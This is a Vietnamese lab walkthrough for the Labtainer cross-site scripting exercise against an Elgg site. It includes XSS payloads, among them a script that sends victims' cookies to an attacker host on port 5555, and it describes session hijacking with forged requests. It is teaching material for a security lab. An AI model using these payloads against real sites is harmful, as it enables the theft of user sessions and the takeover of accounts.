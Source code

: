 # Tấn công Cross Site Scripting vào máy chủ web

- Chạy lệnh: labtainer xsitetrong terminal của Labtainer
  
  ![image](https://github.com/user-attachments/assets/20b92a0d-37bc-4430-9df8-f5046b869a44)

- Chương trình sẽ hiển thị 3 terminal bao gồm “vuln-site”, “victim”, “attacker”.

  ![image](https://github.com/user-attachments/assets/a7d288d1-6afe-4995-995a-927b8e604705)


- Gõ lệnh: sudo systemctl restart httpd
- Đồng thời trình duyệt Firefox sẽ tự động khởi chạy trong vài giây.
  
  ![image](https://github.com/user-attachments/assets/e23e1bb5-db1c-4182-8ab5-854e8a5871b4)

- Open terminal victim gõ lệnh:
- firefox http://www.xsslabelgg.com

  ![image](https://github.com/user-attachments/assets/26725d2d-ad9d-4ebe-86e5-466df225ec56)

## Task 1: Sử dụng mã độc hại hiện thị cửa sổ cảnh báo
- Mục tiêu của nhiệm vụ này là nhúng một chương trình JavaScript vào profile Elgg của bạn, sao cho khi một người dùng khác xem hồ sơ của bạn, chương trình Javascript sẽ được thực thi và một cảnh báo được hiện thị. 

- Đăng nhập vào hệ thống bằng tài khoản `samy` với mật khẩu là `seedsamy`

  ![image](https://github.com/user-attachments/assets/3562a588-fb53-404e-adbe-4d3765807d5c)

- Vào mục More trên thanh taskbar - chọn member-chọn edit profile.
- Chương trình Javascript như sau:
  ```
  <script>alert('XSS');</script>
  ```
  ![image](https://github.com/user-attachments/assets/d74c305e-bdb4-4432-88fa-cb8af996c71f)


## Task 2: Sử dụng mã độc hại hiện thị Cookies trên cửa sổ cảnh báo
- Mục tiêu nhiệm vụ này tương tự task1 nhưng chúng ta sẽ hiện thị cookie người dùng.
- Chương trình Javascript như sau:
  
    ```
    <script>alert(document.cookie);</script>
    ```

    ![image](https://github.com/user-attachments/assets/4576fd65-c6ce-40e5-9259-33bc8dd2ba6f)

## Task 3: Ăn cắp Cookies từ máy của nạn nhân
- Trong nhiệm vụ này, kẻ tấn công tạo một mã Javascript gửi cookie người dùng về cho kẻ tấn công, mã Javascript sẽ gửi một HTTP request với cookie nạn nhân.
  ```
   <script>document.write('<img src=http://attacker_IP_address:5555?c='+ escape(document.cookie) + '>');</script>
  ```
- Khi Javascript chèn thẻ img vào, trình duyệt sẽ cố tải hình ảnh từ url điều này sẽ gửi một request cho kẻ tân công. Javascript đưa ra dưới đây sẽ gửi cookie đến cổng 5555 của máy kẻ tấn công, máy chủ kẻ tấn công sẽ in ra những gì nó nhận được. Máy chủ TCP nằm trong thư mục echoserver.
  
- Open terminal acttacker, vào thư mục run `./echoserv 5555` và chúng ta sẽ lắng nghe request của trình duyệt gửi cookie về cho kẻ tấn công.
  ```
  <script>document.write('<img src=http://172.25.0.3:5555?c='+ escape(document.cookie) + '>');</script>
  ```
  ![image](https://github.com/user-attachments/assets/ea46dd42-2e13-4dd7-b08a-d141b6aa85a1)

## Task 4: Session Hijacking sử dụng cookie bị đánh cắp
- Sau khi đánh cắp cookie của nạn nhân, kẻ tấn công có thể làm bất cứ điều gì nạn nhân có thể làm với web Elgg, bao gồm thêm và xóa bạn bè của nạn nhân. Trong nhiệm vụ này, chúng tôi sẽ khởi chạy cuộc tấn công chiếm quyền điều khiển session.

- Để thêm một người bạn cho nạn nhân, chúng ta sẽ tìm hiểu cách một người dùng hợp pháp thêm một người bạn trong Elgg. Chúng ta cần tìm những gì có trong request gửi đến máy chủ khi người dùng thêm một người bạn. Web Developer / Network tool sẽ cho chúng ta biết những request từ trình duyệt gửi đến máy chủ. Từ nội dung, chúng tôi có thể xác định được tất cả các tham số trong request. 
- Máy chủ Elgg không thể phân biệt xem yêu cầu có phải được gửi bởi trình duyệt nạn nhân hoặc bởi chương trình Java của kẻ tấn công. Miễn sao trong request của kẻ tấn công có đầy đủ tham số như sesion cookie. Để đơn giản hóa nhiệm vụ, thư mục HTTPSimpleForge trên máy tính của kẻ tấn công chứa một mẫu chương trình Java thực hiện. 
    - Note 1: Elgg sử dụng hai tham số __elgg_ts và __elgg_token là biện pháp đối phó CSRF(Cross Site Request Forgery). Đảm bảo rằng bạn đặt các tham số này chính xác cho cuộc tấn công của mình để thành công. 
    - Note 2: Compile và run chương trình Java:
      - javac HTTPSimpleForge.java
      - java HTTPSimpleForge
- Kiểm tra request kết bạn
  
![image](https://github.com/user-attachments/assets/01081210-1a14-4e0b-85de-9fcf42b0c5de)
  
![image](https://github.com/user-attachments/assets/1d9b8546-7ee5-4427-9a41-a70a0a87ca33)

![image](https://github.com/user-attachments/assets/f63e7e71-79ec-4036-bf13-40bd52c2d932)

## Checkwork

![image](https://github.com/user-attachments/assets/404d4fb6-bd62-4ded-8805-c4112480d8fc)

![image](https://github.com/user-attachments/assets/6bd61dfa-3264-4b76-9b76-04376e383bac)


